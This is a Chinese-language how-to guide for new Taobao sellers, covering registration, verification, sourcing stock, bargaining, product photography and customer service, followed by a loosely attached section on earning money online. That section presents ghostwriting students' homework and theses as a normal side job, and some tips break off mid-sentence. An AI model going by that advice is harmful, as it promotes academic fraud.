第二步：填写注册信息，如果是通过手机进行注册，我们需要在注册页面输入手机号码、会员名和验证码，单击“同意以下协议并进入下一步”。

如果使用邮箱注册（推荐使用雅虎邮箱），则需要填入会员名、密码、电子邮件和校验码，单击“同意以下服务条款，提交注册信息”。

第三步：确认注册。手机号码注册需要将手机收到的确认码输入到相应页面进行确认。邮箱注册则需要打开邮箱中由淘宝发送的相应邮件，单击其中的“确认”按钮（见图2）。在我们注册成为淘宝用户的同时，还会生成一个支付宝账户，账户名为申请时使用的邮箱或者电话号码。

#### 卖家资格的认证

注册结束后，你就成为广大淘宝用户中的一员，但是如果你想成为卖家，还需要一个步骤——认证，只有通过淘宝的认证，你才能开店。这里主要是针对你的支付宝进行身份认证。

第一步：从淘宝网首页登录进入你的淘宝账户。如果是第一次登录，将会有一个支付宝账户的激活过程，按照要求填入信息即可激活支付宝账户。

第二步：进入账户（支付宝账户已激活）以后，单击“想卖宝贝先进行支付宝认证，请点击这里”中的“请点击这里”（见图3），进入认证页面。按照说明，依次填写相关信息（最好选择一个开通网上银行业务的银行账户）。

第三步：提交相关信息后，支付宝公司将在1~2个工作日内向你的银行账户内打入一笔钱，这时你只需要登录支付宝账户，单击“申请认证”，输入正确的金额，认证就完成了。

#### 准备开店

认证结束之后就说明你有资格在淘宝上开店了。单击页面上方或者淘宝账户右侧工具栏中的“我要卖”，就可以开始发布宝贝了。淘宝主要有两种销售形式——“拍卖”和“一口价”，单击按钮进入相应发布页面。新的卖家在发布10件及以上产品后才可以正式“开业”。恭喜你，成为淘宝店主中的一员！

不过不要高兴得太早，这些仅仅只是基础，只是店开起来了而已，之后我们还有很多需要做的。我们要了解淘宝经营、交易等相关规则，进行拿货、上货、装修等工作，学习宝贝展示的技巧，熟悉日常管理……

### 要开淘宝网店该卖什么

要想成为淘宝店主，首先，也是最为重要的，就是知道你要卖什么。面对浩瀚的网络海洋，面对广大的网购人群，明确店铺的商品类型就显得很重要了，那么究竟该怎么明确呢？这里有几个选择的原则供大家参考。

#### 原则一：热门原则

如果你不知道你要卖什么，那么可以采取热门原则，就是看网上什么卖得好就卖什么。这样做可以保证稳定的货源，热门的产品购买的人相对来说就会比较多。但是，另一方面，与你竞争的店家就会比较多。所以在使用热门原则的时候一定要量力而行。

#### 原则二：货源原则

该原则指的是要根据卖家所知道的或者居住地附近的货源来决定卖什么，好处在于你可以拿到具有价格优势的货物，并且在拿货的时候很方便，不用压太多的货。早期很多网店都是基于货源原则开起来的，如很多基于义乌批发市场开那些小店。

#### 原则三：特长原则

俗话说得好：“隔行如隔山”，因此在选择商品的时候，我们可以根据自己的特长来确定卖什么。一方面可以考虑自己从事的行业，如果自己本身从事行业不适合网店，那么可以根据自己的知识储备来选择。例如，女生大多都很爱淘衣服，肯定具有丰富的服装搭配知识和服装质量鉴别技巧，那么卖衣服则是一个不错的选择，但要保证自己眼光独到哦！

以上三条原则既可以单独使用，也可以结合使用，相信一定能够帮助你快速确定目标、事半功倍。在这里也祝愿各位早日找到那只能下金蛋的母鸡！

### 淘宝开店系列：货源如何‘淘’

明确我们要买什么了之后，下一步就是要考虑从哪里进货的问题了。

#### 1. 货源种类

要想寻找货源，首先需要了解货源有哪些种类，我们的进货渠道可不仅仅是批发市场哦！如果你仅仅知道批发市场这一个货源可不行。目前，常见和使用较多的货源有以下几种：

**代销：** 分为两种，一种是现实生活中的产品生产商或大额批发商，向淘宝卖家提供货物（有时候需要负责发货）。另一种是淘宝卖家作为下级经销商，与产品生产商或大额批发商通过网络联系（提供照片和图片），由生产商或批发商直接发货。

代销的好处在于货源稳定，淘宝店主不需准备仓库和发货，省事。但由于不直接接触货物对货物的质量不是特别清楚，在销售和售后过程中会有潜在的问题，而且利润也较低。

**批发市场：** 这是很多淘宝商家首推的货源，由淘宝店主自己到现实生活的批发市场中“淘”宝贝，然后拍照挂到网上销售（见图）。这种货源相对来比较费劲，卖家需要熟悉批发市场进货规则和行情，并且在刚开始都会比较艰难，特别是价位上可能占不了多少便宜。但是当你熟悉市场进货方法，以及和店家关系打好了之后，就会很顺了。

**其他货源：** 此外还有一些其他货源。“淘”，就是自己在市场上淘然后挂在网上卖，这种方式不仅价位较高，而且比较费事，好处就在于东东会比较个性。另外，给大家推荐一个很好的货源——阿里巴巴小额批发交易平台，东东真的很多很便宜，而且5件起批，很不错。

#### 2. 建立稳定的货源网络

不管是哪一种货源都需要我们了解市场，但是这是一个循序渐进的过程，在刚开始不要怕麻烦，要多问多比，不要来判断。除此以外还可以参考网上其他店家的销量。但是数量的问题主要还是要看你的眼光和判断力了。

不过，作为一个新手，刚开始在数量上吃点亏也是比较正常的。你可以为了保险起见，各种样式都拿上几手，然后看实际销售情况，下次进货的时候就能够比较准确地把握了。

无论是从批发市场、阿里巴巴拿货还是自己“淘”，都要选择一个好的稳定的货源，即使你是代销，在挑选商家上也需要注意。我们与货源的关系是逐步建立起来的。

第一步：确定卖什么和采取哪一种或哪几种货源方式。
第二步：明确从哪一家或者哪几家拿货。
第三步：实地检查货物的质量如何，码是否齐全，此外还要考虑价格。注意可以留一下老板的名片或联系方式。
第四步：拿货，上货。在销售的过程中，看东东是否好卖。如果好卖，这时候上次留下的名片就很重要了，我们就不用专门跑一趟（万一没有就白跑了），可以先打电话咨询一下。

我们要刚开始的时候不要怕吃亏，拿上几次货就比较熟悉了，慢慢你就可以建立自己的货源网络了。另外，在与货源店家相处的过程中，嘴一定要“甜”，态度一定要好，每次不要拿完货就走，可以和老板聊一聊，东拉西扯一下，有时候人情能为你带来不少好处，老板觉得你是朋友，觉得你人不错，就会给你格外的优惠，这可是我百试不爽的办法哦！

最好能够谈好退换事宜，就是如果产品有质量问题在多久能退，以及保证的范围，特别是时间，这点是很重要的。如果退换条件合理的话，比价格优惠还能带给你更大的实际效益。

在我们拿货的时候其实还有很多打货的技巧和方法。我也是吃了很多次亏才发现的。刚开始的时候经常货不是拿多了就是拿少了，价格也比别人高，还有很多其他问题，记得那段时间我经常烦得头疼。这里为了避免其他人跟我一样“走冤枉路”，就将我的经验与大家分享一下，希望对你们有帮助。

##### 秘籍一：估计数量

拿货的时候比较让人头疼的就是拿货的数量问题（见图），对于没有经验的新手卖家来说，经常在这个上面吃亏。我们可以几个方面确定拿货的数量，一个是可以询问货源老板这个货“走”得怎么样，可以根据这点

##### 秘籍二：砍价规则

一般来说我们进货的货源都属于批发级别的，砍价上要悠着点，千万不要砍价过猛，这样一来很容易让人看出来你是新手，另一方面要知道你和货源老板是要长期打交道的，处好关系很重要的。你来的次数多了，老板自然就会跟你优惠的。最主要的，要记住嘴一定要“甜”。

##### 秘籍三：谈好退换事宜

除了看货的质量，谈好价钱外，

##### 秘籍四：批发市场打货常识

在批发市场进货的时候，老板都是很精的，所以千万不要给人你是新手的感觉。首先在穿着上，不要打扮得太漂亮，要背一个小包，准备一个大的结实一点的袋子（常用黑胶袋），要记住你是来干活的。其次，说话和看货的时候要“经验老道”，这个你可以参见网上的批发市场进货黑话篇，如不要说“这个怎么卖”，要问“这货走得怎么样”等等。另外，在检查商品质量的时候，用手摸用眼看就行，千万不敢一个个试用，特别是服装可不敢放到身上比，这样让人一看就知道你是新手。

总之，在拿货的时候一定要小心谨慎，要有耐心，慢慢当你上手了之后就会发现拿货是一件很简单的事情。

### 宝贝展示有技巧

拍照是宝贝展示中最重要的部分，它直接关系你的宝贝能否很好地卖出去。另外，如果让你的宝贝更个性，好的照片展示也是必要的。所以下面我们要详细来讲一下拍照的技巧。

#### 技巧一：器材选择

拍照的器材当然就是相机喽！现在基本上用的都是数码相机（胶片相机不适合网店），一般入门级的新手卖家用普通傻瓜机就行（微距小于5CM；白平衡、曝光补偿功能；300万像素以上），使用最普遍的是带手动功能的中级相机（微距小于5CM；白平衡、曝光补偿功能；300万像素以上；手动功能），只有部分对相片质量要求比较高的产品才用专业级相机。

淘宝店铺上发布的图片并不是越精美越好，毕竟精美的图片体积就会相应地增大，顾客在浏览的时候打开速度就会相应地比较久，这样顾客就会不耐烦，降低其浏览宝贝的意愿。因此实际上对相机像素的要求并不是很高，但对于相机表现能力和辅助功能，特别是补光效果、色彩饱和度等要求比较高，在选择的时候要注意。

#### 技巧二：注意光源

除了器材，在拍摄过程中光源好坏也很重要。一般来说比较适宜的色温为9：30~15：30的日光、节能灯、闪光灯，色温太低（如早晨和傍晚）会偏红，太高（如日光灯、钨丝灯）会偏黄；亮度则越亮越好，这样能取得理想的景深，画面更清晰。总之，光线一定要充足合适，如果不能满足的话可以采用一些补光设备和工具，如反光板、灯光。如果对照片质量要求较高的话也可以考虑购置专业摄像器材的采光器材。

不同时间与光源的色温参考：

| 时间 | 光源色温（K） |
| :--- | :--- |
| 日出时 | 2000 |
| 日出后或日落前30分钟 | 2400 |
| 日出后或日落前1小时 | 3500 |
| 日出后或日落前2小时 | 4500 |
| 日出后或日落前3小时 | 5400 |
| 平均中午日光 | 5400 |
| 阴天 | 6500—8000 |
| 节能灯 | 6400 |
| 日光灯 | 7000 |
| 闪光灯 | 5500 |
| 家用白炽灯 | 2900 |

#### 技巧三：构图与角度

在拍照过程中，关于物品的摆放和取景也有一定技巧。一定要以卖的宝贝为中心，可以加一些陪衬，但不要淹没主体，也不要选择干扰主体色彩的配饰。另外，角度也要注意，特别是衣服千万不要照变型了（见图）。

以服装产品为例，在拍照的时候千万不可以太在意模特，要知道你不是拍模特，而是展示衣服，如果有必要也可以把模特的头“舍去”。在平铺拍摄的时候，一定要以较高的俯视视角进行拍摄，如果太低拍摄出来的衣服就会显得短而肥，这样的衣服还有谁会想买？

拍摄技巧有很多，店长们也不要心急，拍上两次就能很好地掌握了。

### 天生我材

（照片后期处理）

照片不是照出来就行了，为了美观和吸引人，我们通常还需要对其进行处理，这就是所谓的修片。在处理过程中，虽然追求美观，但一定要坚持真实原则，不可以与实物相差过大，这样买家即使这次购买了，也会因为不满意而给你差评，就不会有很好的信誉度和回头客。另外，不可以有太明显的“修”的痕迹。

具体“修”的内容，主要包括去干扰光线（如反光、变色、阴影等），色调调、锐度、对比度等（以像实物为原则，让色彩更加鲜艳，图片更加清晰），调大小（较小的图片加载速度较快，但要以清晰为底线）等，总之要让照片在真实的基础上尽可能美。主要使用的工具是Photoshop，除此以外还有“光影魔术手”等，卖家如果不能熟练掌握可以参考网上的一些简单的教程。

除了基本修改之外，还可以尝试将图片进行简单的组合和拼图（就是一组照片组成一张图片，通常以全景图为主，细节图为辅），使图片的展示具有动态，更吸引人，制作也很简单。另外，也可以尝试加边框、闪光等装饰（不可以太复杂）。最后，还需要给图片打上专用“标志”，一来防止别人借用，另外可以让图片显得更为专业。

### 宝贝展示有学问

我们在展示图片时，除了照片拍照需要注意外，还有很多其他地方需要注意，这之中可是有很多展示的学问的。

#### 学问一：宝贝信息一定要真实

这里的真实不仅是宝贝相关的数据是自己测量的结果，还要说明数据和其他信息可能存在的误差，还可以说明拍照环境，如在哪里拍的，光线如何，模特的体形等等，供买家参考。另外，在产品描述中加上明确的退换条件和步骤等也是一个很贴心的方法。

#### 学问二：宝贝信息一定要全

宝贝展示的时候，信息一定要全，特别要注意细节图，尽可能地将宝贝的细节部分展示给买家，不要只提供一个全景图，照片要从各个角度拍，要把各个款式都展现出来。不过要注意控制图片数目，有些店家对图片也不经过严格的过滤，都一气摆上来，买家在购买的时候光浏览图片时往下拉网页都很郁闷。

#### 学问三：巧用产品推荐板块

我们可以在首页中设置产品推荐板块。在设置上也要有一定技巧，可以设置滚动或者切换形式的展示窗口，将店里里面比较有特色而又吸引买家的商品展示出来，可以是样式吸引人，也可以是价钱吸引人。另外，可以打出一些促销活动的详细信息，用来吸引顾客。更可以打出一些广告语吸引顾客。

#### 学问四：不要忽视宝贝展示页面的装潢

这里还建议大家可以对宝贝展示界面进行一下装潢，让宝贝更美。不过切忌太华丽，这样不仅打开速度会慢，也会让人反感。总之，在宝贝的展示部分，一定要以吸引顾客为中心，兼顾真实原则。店主也可以想象一下买家可能会比较喜欢的展示方式，大胆尝试一下。

### 我网店的第一笔交易

#### 第一步：准备就绪，等待顾客

将宝贝贴到网上后，就进入漫长的等待过程。由于我的小店才刚开不久，没有什么人来光顾，询问的人就更少了。等得我那个心急啊！可是也没有什么办法。这时候朋友建议我可以去论坛发发文，总好过在这里无聊闲等。接受了建议我开始发一些小的文章，由于主要卖服装，我大多都是谈服装搭配的。

#### 第二步：耐心解答顾客的咨询

不知道是我发的文章起作用，还是我的宝贝不错，亦或是我等的时间到了，终于有人开始询问了，我赶快耐心加细心地回答一切提问。由于是第一笔生意，我格外认真，还很注意措辞用句，逐一解答买家的问题，还帮忙量尺寸什么的。

#### 第三步：修改资费（如需要），发货

她把东东拍下来之后，我将价格改好，就准备发货了。为了发货速度快，立刻就开始包装，准备发货，在包装的时候还附送了一个小礼物，包装得结结实实的，加上一个美丽的包装袋和盒子，就立刻跑到快递点发了个货。感谢她的支持。呵呵！

#### 第四步：确认货到，评价

两天后她收到东西，还挺喜欢的，给我了一个好评。很高兴！呵呵！

在这个还算成功的第一笔交易之后，我的店终于开张了。不过说实话刚开始，开始几乎都没怎么挣钱，只能说是挣了一个信誉。但总算开始有销量了，真的很开心！后面就越来越好了。

在这里我要告诉其他新手卖家，刚开始的时候不要心急啊！除了耐心还要耐心。慢慢你的店铺就会有人光顾的。另外，即使刚开始挣不到太多钱也没有关系，万事开头难！一定要稳扎稳打，细心做好每一笔交易。态度很重要哦！

### 我的开店经验分享

#### 经验一：交易过程中态度最重要

新手是每个淘宝卖家必须经历的阶段，通常不会很短。我有一个朋友（卖围巾和袜子）在经营了两年多了之后，生意才逐渐上轨道，现在开始雇人做客服什么的，在淘宝网的本行业中也算是数一数二的了。他告诉我，开店一定要有恒心和耐心，不能心急，刚开始起步时通常都是走量，利润很薄的。但是我建议各位新手，可以多参考一下前辈们的经验，虽然这个阶段必须经历，但我们也可以加点加速剂缩短这个过程。

交易过程最重要的就是态度，要让顾客觉得你很贴心，很多时候交易是否成功并不重要，重要的是让顾客对你留下好印象。态度好了，顾客即使这次没买也会对你的店印象深刻的，就会形成潜在顾客群，为未来发展带来潜力。

好态度要贯穿交易始终。一来客服应答速度要快，如果你无法保证一天24小时都在线，也尽量要早8点到晚12点在线，建议无法保证的店主可以通过手机在线，保证顾客能在需要的时候找到你。很多买家都会觉得网上购物保险度不够，他们都会事先询问好相关信息再买，很少有那种直接拍的。千万不要以为你把宝贝挂在那里就会有人来光顾。

另外，措辞什么也要注意。可以用一些“亲…”之类的称呼语，让顾客觉得亲切。还要耐心，不要觉得顾客的不停地询问很烦，他们有什么你可以做到的要求，一定要尽量满足。

#### 经验二：发货速度要快包装要好

交易成功后，就是发货了。发货的时候首先要注意的就是包装，干净整齐结实是必须的，对于在运输过程中容易损坏的东东要加一些减震装置（可以填充一些纸）。另外，如果允许的话可以加一些小赠品，如挂坠什么的，让买家对你的好感一下子提升很多。个人还喜欢加一个卡片，注明货物的名目，再加一些问候语什么的。

另外，还需要注意快递公司的选择，刚开始就是与快递公司谈谈价格，一般市价是15元，谈一下最少都可以低到12元，有些甚至更低。后期，量比较大的时候可以与快递公司签约，价格更低。个人比较喜欢申通快递，所在地的工作人员服务很好，另外网点覆盖也比较好，速度也很快。

#### 经验三：日常管理要有序

在交易过程中，除了与顾客的正常交流、发货之外还有一些日常管理工作，包括账目、店铺的更新和展示制作等。

首先，我们的店铺不能一成不变，没有更新，没有新货就让店铺死气沉沉，很多买家来过一次之后就可能不再光顾了。可以根据季节进行更新，包括装潢和宝贝的更新。还可以在一些节假日推出一些应景的产品和促销活动，让店面“活”起来。

其次，最好自己制作电子表格对店铺进行日常管理。可以制作一个针对店铺管理表格，对人员的职责进行详细的划分（见图）。还可以制作一个阶段规划的表格，确定不同时期的工作重点。另外，最重要的是要有一个罗列宝贝详情的表格，包括数量、销售情况等信息，让自己和工作人员都可以一目了然。列得比较合理的话，在顾客询问的时候，客服可以迅速进行解答。

| 列A | 列B | 列C | 列D | 列E |
|-----|-----|-----|-----|-----|
| 时间 | 类别 | 编号 | 具体内容 | 备注（此处是我店，建议对...） |
| 二 | 前期 | 1 | 创业计划 | 确定长期、中期、短期目标， |
| 二 | 前期 | 1.1 | 资金计划 | 前期投入资金，大概... |
| 二 | 前期 | 1.2 | 管理人员 | 相关人员的招聘 |
| 二 | 前期 | 1.3 | 财务规划 | 前期投入不赚钱，但不能长期不... |
| 开店 | 进货 | 2.1 | 开业前的进货 | 进货是基础，是核心的部分 |
| 开店 | 进货 | 2.2 | 进货渠道 | 人要有自己的特色，还是人多有我优？还是人... |
| 批发 | 进货 | 3 | 确认分工、职责 | 以进货为例，确定... |
| 批发 | 进货 | 3.1 | 采办同类货 | 确定有没有同类产品、人家的价... |
| 批发 | 进货 | 3.2 | 同行批发价 | 看看同行批发价，大概的... |
| 批发 | 进货 | 3.3 | 批发的种类 | 批发的种类是关键 |
|  |  | 2 | 进货 | 采购进货（以服装为例） |

#### 1. 关于认证

问：我想开店，点击之后说需要实名认证？怎么回事？

答：在申请成为淘宝会员之后，还需要通过‘支付宝认证’后才能开店，这个服务是一项身份识别服务，除了核实身份信息以外，还核实了银行账户等信息。通过认证后就可以在淘宝网等众多电子商务网站开店、出售商品，主要包括‘支付宝个人实名认证’与‘支付宝商家实名认证’。用户需要输入每一项详细信息，然后等待认证（见图1）。通过后就可以开店了。但是一旦这个账户申请通过认证，用户名是无法进行转让的，身份证号码、真实姓名等信息都无法更改。如要更改则需要再次提交身份证明，再次认证。



#### 2. 关于货源

问：怎么能进到又好又便宜的货？

答：我们可以就近找批发市场，这种是被淘宝商家公认的最好的货源，但需要店主自己去淘，关于淘的方法也比较有讲究，有很多所谓的‘黑话’帮助你看起来不像菜鸟。另外，关于价格你可以参考阿里旺旺，那里给出的价格基本上是最低的。阿里旺旺可是本人的货源之一，超级好用。不过我觉得货源还是要靠你自己摸索，还要看你卖什么，如果你卖的是品牌产品，当然找代理代销比较好啊！

#### 3. 店铺装修

问：我电脑里自己照的宝贝照片要怎么上传？

答：淘宝网不支持图片的本地连接（就是从你自己的电脑里上传照片），只支持网络连接（在网上找的图片）。因此，我们需要申请一个网络相册，推荐使用www.51.com，除此之外还有www.yupoo.com、www.photo168.net、www.5460.net等。在将照片或图片上传至这些网络相册之后，右键单击图片选择‘属性’，有一个‘地址（URL）’项，将其后的地址复制过来就行了（见图2）。



问：淘宝店铺对图片的大小有没有要求啊？一般多大的比较好？

答：当然是有要求的，淘宝店铺支持jpg和gif格式的图片，宝贝图片大小不能超过120KB（500×5000px），店标不能超过80KB（100×100px），个人头像（120×120px）、签名（468×60px）不能超过100KB，这些数据是规定的，如果超过了将会无法显示。另外，只支持网络连接，不支持本地连接。除此以外，还有一个原则，就是图片在能看清楚的基础上要尽可能小，这样顾客浏览你的店铺时图片加载更快，他们会比较愿意‘逛’。

问：什么是淘宝旺铺？有什么好处？

答：淘宝网提供淘宝旺铺服务，只要是淘宝卖家都可以订购，是需要付费的（见图3），目前按照消保卖家每个季度90元，非消保卖家每个季度150元进行收费。订购了该服务，可以拥有一个全新的、自定义程度更大的店铺首页，包括950*120像素大小的店铺招牌（可以显示在首页、宝贝详情页面）、支持html代码的最大为500像素的宝贝促销区域、3个个性推广区（通过设定关键字、店铺类别、新旧程度、结束时间、价格范围、显示方式、排序方式等条件，显示宝贝搜索结果）、5个自定义页面等，具有更多的店铺风格模板，同时在对店铺页面进行编辑的时候是所见即所得，操作非常简单，也不需要太高的技术要求。淘宝旺铺可以让你的店铺更加漂亮，推荐使用。

店铺功能对比表格（包含店铺类、新旧程度、结束时间、价格范围等）

#### 4. 拍照与上货

问：我是一个新手，在拍照的时候照出来的东西经常不够清楚？有没有什么技巧啊？

答：有几个方法可以帮助你，首先使用三脚架，如果没有三脚架也要让相机平稳，按快门的时候不要晃动相机，这个多练几次就好了。另外，在拍照的时候将取景框的自动聚焦框定位于拍照物上，或者使用聚焦锁定机能，这个定位点可以是整个产品也可以是产品的某个部分。在选择标准模式时，要注意物品与相机的距离和相机拍照的有效距离，不在相机拍摄范围内的物品都会不清楚。

问：过于复杂的背景会使物品不突出，想拍白底照片，总是拍不好，怎么办？

答：比较省钱的方法是用普通A4白纸制作一个不带上盖的纸盒（要能立起来，可以借助筷子或铁丝，但注意不要让筷子反射出颜色和阴影），在斜角位置开一个口子做相机取景的窗口。在纸盒前侧方用普通台灯（白色）打光，然后用相机拍照就可以了。后期再用Photoshop调整一下色调、对比度、锐度什么的，就好了。

### 杂七杂八搜——网赚天下

#### 1 网编工作谈

网络编辑很时兴，很多网站需要一些编辑，进行一些资料的更新和提升人气的工作。在论坛上发帖回帖，提升论坛人气；做版主，管理论坛帖子；在小说、散文等阅读网站更新文章；寻找信息，进行整合，发布在新闻网站上……

这是一项相对比较轻松和自由的赚钱工作，只要呆在家里，也不需要投入过多的精力。尤其是发帖回帖、更新内容等，只要复制粘贴就可以完成任务，一个月赚几百块钱做补贴也不错。

#### 2 网络有几手

如果你的文笔还可以，又热爱文字创作，那么一份网络写手的兼职很适合你。空闲时间，在网络上写写东西，不但是对写作能力的一种提高，也可以增加一份额外的收入，何乐而不为？

一般的文学性网站或者论坛里需要这样的写手，比方说有名的连城书盟，有兴趣的朋友可以申请注册，写小说、散文，如果点击率高成为VIP，可以获取不菲的收入，甚至可能圆你的作家梦，真正发行文章。

网络还有一手——网络枪手，顾名思义，就是帮别人写作文、做作业等。现在论文困扰着不少高校学生，论文网站颇受他们青睐。这份工作就需要一定得知识水平，尤其是一些做写论文的枪手，当然难度越大，收入也更可观。

#### 3 网游做老板

以前玩网游的人被认为是不务正业的坏孩子，现在玩网游也能玩出一个老板来。如果你的级别够高，实力够强，就可以售卖拥有的装备，也就把在游戏中获得的虚拟财产转换为现实人民币，不少职业游戏玩家就是这么维持生计的。

不过这实在不是一个什么好的网赚方式，每天耗费大量的时间和精力，去追求一种虚无缥缈的东西，将宝贵的光阴全部浪费在游戏中（见图）。



#### 4 技术买卖

网络年代，会网络技术的人特别吃香。大量网站需要很多特效和图片，精通Photoshop的人可以帮助网站进行后期的图片处理，制作精美图片；熟练flash的人可以制作各种可爱、有趣、类似QQ表情的flash，在网上出售；另外，会视频编辑的人也可以对视频进行后期处理，制作出幽默的视频和魔法表情。

这些的技术难度并不是很高，但却拥有相对较大的市场，有这类专长的人不妨试一试。

#### 5 开网站、做买卖

泡泡网的CEO李想25岁就成为亿万富翁，他是自己做网站这么发家的。那么我们也可以从这里开始，先利用网上的免费资源进行了解和初步的尝试。当发展到一定程度后，买个域名，做个像样的网站，通过后期的推广和维护，招商引资，实现收益并不难。

尽管从这里说很简单，但实际操作上并非易事，首先要会一定的网站编程技术，还要有一套实际可操作的商业运作模式等等。也可以在网上购买一个觉得可以运营的网站，或者自己经营，或者倒卖，又或者抢注域名、再卖。

#### 问：怎样让宝贝吸引更多人啊？

答：可以对店铺进行推广，方法此书文章会详细介绍。

还有就是在店铺中使用一些展示方法。首先，要经常对产品展示区进行更新。介绍一个小经验，如果有比较好的产品不要一次上架，可以分批上来吸引顾客光临，不过前提是对你的宝贝有信心哦！另外，还可以通过在别的生意比较好的店铺上展示宝贝，增加点击率，不过这样要给对方佣金。

#### 5. 交易、物流与售后

问：我的店铺来问的人很多，但成交率不高，该如何提高交易成交率呢？

答：首先在与顾客交谈的过程中，用语要亲切，服务要耐心，工作要贴心，总之最好能够站在顾客的角度考虑他们的需要。要详细了解他们的需求，然后给他们符合自身的建议，让顾客感到你是为他们好。此外，还可以给顾客适当的优惠，如打个折、免个邮什么的。有时候顾客能搞下来价他也会很开心，对于我们来说薄利多销嘛！

另外要重视售后，好的售后不但能为你形成忠实的顾客，对你的信誉度也很好，顾客在交易结束之后有时候给你的不仅仅是好评，有时还会附加好的留言评价。要做好售后，一方面要不断跟踪货物的运送情况，在买家收到货的时候要及时进行询问，让买家感受到你的服务质量。

问：顾客要求货到付款？要怎么开通？多久才能收到货款？有没有风险啊？

答：货到付款是淘宝网、支付宝联合物流公司推出的一种服务。买家在商家网页上下单订货，商家发货，不需要提供运费（物流公司会自己向用户收取），物流公司送货并代收现金（最高代收金额是人民币2000元，代收费用由买家提供，一般是金额的1.5%，最低2元，最高20元），支付宝回笼资金将商品费用打给商家。目前支持货到付款的物流公司有宅急送、顺丰、EMS，一般为物流公司到系统中确认买家收货的时间再加3天就可以汇款。商家可以根据需要选择是否开通货到付款。